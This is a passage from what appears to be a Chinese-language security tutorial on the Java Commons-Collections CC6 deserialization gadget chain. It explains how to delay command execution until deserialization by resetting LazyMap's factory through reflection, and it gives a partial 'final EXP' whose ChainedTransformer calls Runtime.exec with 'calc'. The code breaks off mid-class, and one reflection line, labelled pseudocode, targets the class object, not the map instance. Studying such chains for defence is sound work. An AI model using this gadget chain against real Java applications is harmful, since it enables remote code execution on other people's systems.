 我在打断点调试的时候发现当我序列化的时候，就能够弹出计算器，太奇怪了，这与 URLDNS 链中的情景其实是一模一样的。

### 4. 解决在序列化的时候就弹出计算器的问题

- 参考 URLDNS 链中的思想，先在执行 `put()` 方法的时候，先不让其进行命令执行，在反序列化的时候再命令执行。

此处强烈建议师傅们去打断点好好理解一下！

我在打完断点后分析出来的原因是这样的：

与 URLDNS 中的不同，有些链子可以通过设置参数修改，有些则不行。在我们 CC6 的链子当中，通过修改这一句语句 `Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);`，可以达到我们需要的效果。

我们之前传进去的参数是 `chainedTransformer`，我们在序列化的时候传进去一个没用的东西，再在反序列化的时候通过反射，将其修改回 `chainedTransformer`。相关的属性值在 LazyMap 当中为 `factory`

![img](https://drun1baby.top/2022/06/11/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Commons-Collections%E7%AF%8703-CC6%E9%93%BE/ReflectChangeFactory.png)

- 修改如下

JAVA

```
Map lazyMap = LazyMap.decorate(hashMap, chainedTransformer);
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "key");

-----------------> 变成

Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("five"));
lazyMap.remove("key");


在执行 put 方法之后通过反射修改 Transformer 的 factory 值

// 某伪代码块
Class<LazyMap> lazyMapClass = LazyMap.class;  
Field factoryField = lazyMapClass.getDeclaredField("factory");  
factoryField.setAccessible(true);  
factoryField.set(lazyMapClass, chainedTransformer);
```

### 5. 最终 EXP

JAVA

```
package org.example;  
  
public class FinalCC6EXP {  
    public static void main(String[] args) throws Exception{  
        Transformer[] transformers = new Transformer[]{  
        new ConstantTransformer(Runtime.class),  
        new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),  
        new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),  
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})  
        };  
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);  
        HashMap<Object,Object> map = new HashMap<Object,Object>();  
        Map<Object,Object> lazymap = LazyMap.decorate(map,new ConstantTransformer(1));  
  
        HashMap<Object,Object> map2 = new HashMap<>();  
  
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap,"aaa");  
  
        map2.put(tiedMapEntry,"bbb");  
        map.remove("aaa");  
```